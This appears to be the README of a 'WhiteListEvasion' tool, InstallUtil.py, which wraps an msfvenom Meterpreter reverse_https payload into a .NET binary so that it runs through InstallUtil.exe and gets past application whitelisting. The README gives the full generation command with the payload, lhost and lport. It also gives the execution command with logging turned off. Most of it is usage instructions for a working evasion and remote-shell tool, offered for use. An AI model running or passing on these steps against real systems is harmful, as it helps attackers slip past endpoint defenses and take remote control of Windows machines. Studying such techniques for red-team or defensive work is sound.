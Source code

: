 # WhiteListEvasion

1. InstallUtil.py

   Usage:
   python InstallUtil.py [--cs_file cs_filename] [--exe_name exe_filename] [--payload payload] [--lhost lhost] [--lport lport]

   python InstallUtil.py --cs_file temp.cs --exe_name temp.exe --payload windows/meterpreter/reverse_https --lhost 192.168.1.11 --lport 443

   Script that generates a .NET binary that attempts to leverage the InstallUtil.exe whitelist evasion technique.  this is accomplished by importing a msfvenom generated payload into the c_sharp template found here: http://www.room362.com/blog/2014/01/16/application-whitelist-bypass-using-ieexec-dot-exe/  . This template is then incorporated into the InstallUtil PoC found here: https://github.com/subTee/ShmooCon-2015/blob/master/CaseySmith-SimpleWindowsApplicationWhitelistingEvasion .  One thing of note:  The payload architecture must match the Framework subdir in the .NET path or the binary wil crash.

  Script.cs and script.exe are example output from InstallUtil.py.  To execute the execute, simply get the binary on disk and then run (something much like):
  C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U script.exe

  Requires mono, mono-develop, Python 2.7+, msfvenom (from metasploit). Tested and verified the script on a Kali linux VM.  Both 32-bit and 64-bit binaries tested and verified on Windows 7 with .NET 4.5. -khr0x40sh@gmail.com 
